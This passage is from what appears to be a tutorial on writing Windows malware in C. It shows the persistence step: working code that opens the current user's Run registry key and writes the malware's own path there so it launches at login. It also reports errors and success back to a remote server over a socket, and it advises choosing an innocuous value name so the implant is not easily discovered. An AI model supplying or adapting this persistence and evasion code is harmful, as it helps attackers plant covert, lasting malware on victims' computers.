 As we are creating a registry entry, we'll need to create the registry key value
in order to successfully input our program to the registry. We can do that in C
by creating a new HKEY typed variable:

```c
HKEY NewVal;
```

The "_NewVal_" variable is just a handler to an opened registry key. Now that we
have this variable, we can create an if statement which will execute the
function "_RegOpenKey_" to open our registry key:

```c
if(RegOpenKey(HKEY_CURRENT_USER, TEXT("Software\\Microsoft\\Windows\\CurrentVersion\\Run"), &NewVal) != ERROR_SUCCESS) {
  send(sock, err, sizeof(err), 0);
  return -1;
}
```

If the registry key couldn't be opened, the "_err_" variable value will be send
to the server and the function will return a negative value.

The "_RegOpenKey_" function takes three arguments:

* HKEY_CURRENT_USER: The part of the registry in which we are adding our key. In
  our case `HKEY_CURRENT_USER`.
* TEXT: The path inside of the registry.
* &NewVal: The memory location of our new value.

Now that we have opened up the registry, we need to set the value. First, let's
create another variable called "_pathLenInBytes_":

```c
DWORD pathLenInBytes = pathLen * sizeof(*szPath);
```

And the last thing that is left to do, is to add the value to our registry, send
the success message to the server, close the registry key and exit the function.

We can add the value to the registry by adding to our function the following
code:

```c
if (RegSetValueEx(NewVal, TEXT("Hacked"), 0, REG_SZ, (LPBYTE)szPath, pathLenInBytes) != ERROR_SUCCESS) {
  RegCloseKey(NewVal);
  send(sock, err, sizeof(err), 0);
  return -1;
}
```

What we are doing is to check if the registry key could be created successfuly,
if not, what is inside of the "_if_" statement is executed, the registry key is
  closed, the error message is sent to the server and the function returns -1.

The "_RegSetValueEx_" takes 6 parameters:

* NewVal: A handler to an open registry key
* TEXT("Hacked"): The name of the value to set. You can set anything (Set
  anything different to hacked if you don't want to be easily discovered)
* "0": This parameter is reserved and must be zero
* "REG_SZ": The Registry value type. "_REG_SZ_" represents a null-terminated
  string which could be either a Unicode or an ANSI string.
* (LPBYTE)szPath: The data to be stored (In our case, our malware's path)
* pathLenInBytes: The size of the path in bytes
